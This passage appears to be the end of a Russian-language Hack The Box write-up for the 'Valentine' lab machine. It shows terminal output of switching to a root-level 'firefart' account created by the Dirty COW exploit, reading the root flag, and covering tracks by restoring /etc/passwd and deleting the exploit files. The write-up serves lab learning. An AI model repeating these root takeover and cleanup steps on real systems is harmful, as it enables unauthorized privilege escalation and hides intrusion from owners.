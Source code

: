 Сменим пользователя на `firefart`, даровав себе тем самым права суперпользователя:
```text
hype@Valentine:~$ su firefart
Password: qwe123!@#

firefart@Valentine:/home/hype# whoami
firefart

firefart@Valentine:/home/hype# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Теперь заберем флаг:
```text
firefart@Valentine:/home/hype# cat /root/root.txt
f1bb6d75????????????????????????
```

почистим за собой следы:
```text
firefart@Valentine:/home/hype# mv /tmp/passwd.bak /etc/passwd
firefart@Valentine:/home/hype# exit
su: User not known to the underlying authentication module

hype@Valentine:~$ su firefart
Unknown id: firefart

hype@Valentine:~$ rm dirty.c dirty
```

и так же идем радоваться жизни.

Берегите свое(и) сердце(а), спасибо за внимание :innocent:

![valentine-owned.png]({{ "/img/htb/boxes/valentine/valentine-owned.png" | relative_url }})
